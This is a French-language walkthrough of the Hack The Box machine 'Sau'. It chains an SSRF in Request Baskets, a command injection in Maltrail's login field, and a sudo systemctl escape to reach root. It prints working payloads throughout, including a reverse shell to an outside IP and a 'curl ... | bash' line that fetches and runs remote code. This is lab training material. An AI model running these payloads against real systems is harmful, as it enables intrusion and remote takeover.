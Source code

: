 # Sau

	echo "10.10.11.224 sau.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.224 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.224 -oN nmap.txt
	feroxbuster --silent -u http://10.10.11.224:55555
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
	80/tcp filtered http  
	8338/tcp filtered unknown  
	55555/tcp open unknown

Impossible d'accéder au site du port 80 mais le site du port 55555 est ouvert et contient un genre d'API qui permet de créer des baskets pour recueillir des requêtes HTTP. Cela me fait immédiatement penser au fait de pouvoir faire pointer cette fonctionnalité sur un serveur que je contrôle.

Une SSRF a déjà été répertoriée et cela facilite grandement la phase de reconnaissance :
- https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3
- https://notes.sjtu.edu.cn/s/MUUhEymt7# 

En reprenant le payload de l'article, cela donne : 

	curl -X POST "http://sau.htb:55555/api/baskets/aaaaa" -d '{"forward_url": "http://127.0.0.1:80","proxy_response": false,"insecure_tls": true,"expand_path": true,"capacity": 250}' -H 'Content-Type: application/json'


Ensuite, en se connectant graphiquement sur l'URL http://sau.htb:55555/aaaaa on peut utiliser le token obtenu dans la réponse à notre requête POST et accéder au paramétrage du basket ainsi qu'aux requêtes faites dessus.

En allant sur http://sau.htb:55555/aaaaa on a bien une requête qui apparaît mais on a juste une page blanche. J'ai essayé de cocher et décocher les quelques cases du paramétrage du basket et j'ai fini par réussir à avoir le site du port 80 que je visais en activant le paramètre "proxy_response"

Payload équivalent en ligne de commande pour directement avoir un basket malicieux fonctionnel : 

	curl -X POST "http://sau.htb:55555/api/baskets/aaaaa2" -d '{"forward_url": "http://127.0.0.1:80","proxy_response": true,"insecure_tls": true,"expand_path": true,"capacity": 250}' -H 'Content-Type: application/json'

J'arrive donc sur le site du port 80. Il y a juste une interface précaire avec quelques liens redirigeant vers un Github, mais je vois "Powered by Maltrail (v0.53)" en bas à gauche. Par chance, Maltrail est vulnérable aux injections de commande avant la v0.54 et il existe des articles avec des PoC : https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/ 

	echo "sh -i >& /dev/tcp/10.10.16.57/443 0>&1" > shell
	sudo cp shell /var/www/html/
	sudo tail /var/log/apache2/access.log -f
	curl http://sau.htb:55555/aaaaa2/login --data 'username=; `curl http://10.10.16.57/test.txt`'
	curl http://sau.htb:55555/aaaaa2/login --data  'username=; `curl http://10.10.16.57/shell | bash`'

Après pas mal de tentatives, j'ai finalement réussi à avoir le shell. Il faut noter que ce dernier payload avec le téléchargement puis "| bash" est beaucoup plus efficace. Et cela évite de s'embêter à devoir spécifier un chemin puis modifier manuellement les droits du fichier pour pouvoir l'exécuter.

	...
	rlwrap nc -nvlp 443
	...
	whoami
	cat ~/user.txt
	
Élévation de privilèges : 

	cd /tmp
	wget http://10.10.16.57/linpeas.sh
	chmod u+x linpeas.sh
	/tmp/linpeas.sh > r.txt
	less -R r.txt

Je remarque une ligne surlignée dans le rapport : 

> User puma may run the following commands on sau:  
  > (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Voir : https://gtfobins.github.io/gtfobins/systemctl/#sudo 
	
	python3 -c 'import pty ; pty.spawn("/bin/bash")'
	sudo /usr/bin/systemctl status trail.service
	...
	!/bin/bash
	whoami
	cat /root/root.txt


